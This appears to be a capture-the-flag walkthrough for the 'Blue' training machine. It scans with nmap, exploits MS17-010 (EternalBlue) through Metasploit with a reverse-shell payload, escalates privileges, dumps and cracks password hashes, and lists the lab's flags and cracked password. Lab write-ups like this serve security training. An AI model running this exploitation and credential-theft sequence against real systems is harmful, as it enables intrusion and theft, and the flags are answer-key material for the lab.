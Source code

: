 # Blue Walkthrough

## Overview
This walkthrough guides you through the process of gaining access to a vulnerable machine named "BLUE" and escalating privileges. The steps involve exploiting a vulnerability, discovering user credentials, and implementing server hardening measures.

## Step 1: Port Scanning and Vulnerability Identification

```bash
nmap -sV -sC --script vuln 10.10.200.244
```

The `-sV` flag adds version detection, the `-sC` flag runs default scripts, and the `--script` flag identifies vulnerabilities.

- **Vulnerability Identified:** smb-vuln-ms17-010, CVE-2017-0143

## Step 2: Exploitation

### Metasploit Exploit

```bash
# Start Metasploit
msfconsole

# Search for the ms17-010 exploit
search ms17-010 type:exploit

# Load the EternalBlue module
use exploit/windows/smb/ms17_010_eternalblue

# Set required values, e.g., RHOSTS
show options
set RHOSTS 10.10.200.244

# Set payload and RHOSTS
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.200.244

# Run the exploit
exploit
```

- **Exploitation Code Path:** exploit/windows/smb/ms17_010_eternalblue
- **Required Value:** RHOSTS

### Meterpreter Shell Conversion

```bash
# Background the shell
background

# Search for shell_to_meterpreter module
search shell_to_meterpreter

# Load the shell_to_meterpreter module
use post/multi/manage/shell_to_meterpreter

# Show options and set SESSION value
show options
set SESSION 1

# Run the module
run
```

- **Post Module Path:** post/multi/manage/shell_to_meterpreter
- **Required Option:** SESSION

## Step 3: Privilege Escalation

### Meterpreter Privilege Escalation

```bash
# Background the shell
background

# Verify system access
getsystem

# Migrate to a system process
migrate PROCESS_ID
```

## Step 4: Password Cracking

```bash
# Dump passwords with hashdump
hashdump

# Non-default user found: Jon
# Copy hash to a file (e.g., hash.txt)
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > hash.txt

# Crack password with John the Ripper
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

- **Non-default User:** Jon
- **Cracked Password:** alqfna22

## Step 5: Flag Hunt

### Flag 1

```bash
# Navigate to system root
cd /
ls
cat flag1.txt
```

- **Flag 1:** flag{access_the_machine}

### Flag 2

```bash
# Navigate to hashed password location
cd C:/Windows/System32/config
ls
cat flag2.txt
```

- **Flag 2:** flag{sam_database_elevated_access}

### Flag 3

```bash
# Navigate to Jon's Documents folder
cd /Users/Jon/Documents
ls
cat flag3.txt
```

- **Flag 3:** flag{admin_documents_can_be_valuable}

---

**Congratulations!** You have completed the Blue walkthrough. If you found this helpful, consider giving it a thumbs up!
